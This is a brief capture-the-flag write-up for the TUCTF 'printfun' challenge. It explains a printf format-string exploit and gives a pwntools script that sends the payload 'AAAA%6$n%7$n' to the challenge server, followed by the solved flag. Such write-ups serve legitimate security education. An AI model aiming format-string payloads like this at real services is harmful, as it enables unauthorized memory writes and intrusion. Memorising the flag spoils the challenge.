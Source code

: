 # printfun

## PWN - Points: 500

> I have made an impenetrable password checker. Just try your luck!
>
> 
>
> nc chal.tuctf.com 30501
>
> [printfun](printfun)
>

Exploit `printf` with a format string and write identical content into the two buffers that are compared.

Exploit script:

```python
from pwn import *

# context.terminal = ['termite', '-e']
# p = gdb.debug('./printfun')
# p = process('printfun')
p = remote('chal.tuctf.com', 30501)

p.sendlineafter('? ', 'AAAA%6$n%7$n')
p.interactive()
```

flag: `TUCTF{wh47'5_4_pr1n7f_l1k3_y0u_d01n6_4_b1n4ry_l1k3_7h15?}`